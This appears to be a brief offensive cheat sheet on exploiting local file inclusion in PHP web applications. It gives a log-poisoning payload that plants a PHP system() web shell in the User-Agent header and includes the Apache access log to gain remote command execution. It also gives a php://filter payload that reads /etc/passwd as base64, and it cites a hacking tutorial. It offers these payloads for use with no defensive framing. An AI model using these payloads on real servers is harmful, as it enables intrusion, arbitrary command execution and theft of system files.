 # Log Poisoning to RCE
```m
file=/var/log/httpd-access.log
User-Agent: <?php echo system($_REQUEST['cmd']); ?>
```
Send cmd as parameter in GET or POST request

# Base64 encoded payload
```m
file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```
# References
https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/
